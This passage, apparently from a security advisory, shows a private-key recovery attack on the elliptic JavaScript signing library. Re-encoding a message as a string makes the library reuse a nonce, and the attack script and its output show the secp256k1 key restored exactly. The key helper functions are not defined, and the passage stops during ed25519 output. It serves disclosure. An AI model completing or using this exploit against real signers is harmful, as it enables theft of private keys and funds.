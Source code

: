 > const prettyprint = ({ r, s }) => `r: ${r}, s: ${s}`
> const sig0 = prettyprint(ec.sign(Buffer.alloc(32, 1), privateKey)) // array of ones
> const sig1 = prettyprint(ec.sign('01'.repeat(32), privateKey)) // same message in hex form
> const sig2 = prettyprint(ec.sign('-' + '01'.repeat(32), privateKey)) // same `r`, different `s`
> console.log({ sig0, sig1, sig2 })
> ```
>
> 
>
> #### Full attack
>
> This doesn't include code for generation/recovery on a purpose (bit it's rather trivial)
>
> ```
> import elliptic from 'elliptic'
> 
> const { ec: EC } = elliptic
> 
> const privateKey = crypto.getRandomValues(new Uint8Array(32))
> const curve = 'secp256k1' // or any other curve, e.g. ed25519
> const ec = new EC(curve)
> 
> // Any message, e.g. previously known signature
> const msg0 = crypto.getRandomValues(new Uint8Array(32))
> const sig0 = ec.sign(msg0, privateKey)
> 
> // Attack
> const msg1 = funny(msg0) // this is a string here, but can also be of other non-Uint8Array types
> const sig1 = ec.sign(msg1, privateKey)
> 
> const something = extract(msg0, sig0, sig1, curve)
> 
> console.log('Curve:', curve)
> console.log('Typeof:', typeof msg1)
> console.log('Keys equal?', Buffer.from(privateKey).toString('hex') === something)
> const rnd = crypto.getRandomValues(new Uint8Array(32))
> const st = (x) => JSON.stringify(x)
> console.log('Keys equivalent?', st(ec.sign(rnd, something).toDER()) === st(ec.sign(rnd, privateKey).toDER()))
> console.log('Orig key:', Buffer.from(privateKey).toString('hex'))
> console.log('Restored:', something)
> ```
>
> 
>
> Output:
>
> ```
> Curve: secp256k1
> Typeof: string
> Keys equal? true
> Keys equivalent? true
> Orig key: c7870f7eb3e8fd5155d5c8cdfca61aa993eed1fbe5b41feef69a68303248c22a
> Restored: c7870f7eb3e8fd5155d5c8cdfca61aa993eed1fbe5b41feef69a68303248c22a
> ```
>
> 
>
> Similar for `ed25519`, but due to low `n`, the key might not match precisely but is nevertheless equivalent for signing:
>
> ```
> Curve: ed25519
> Typeof: string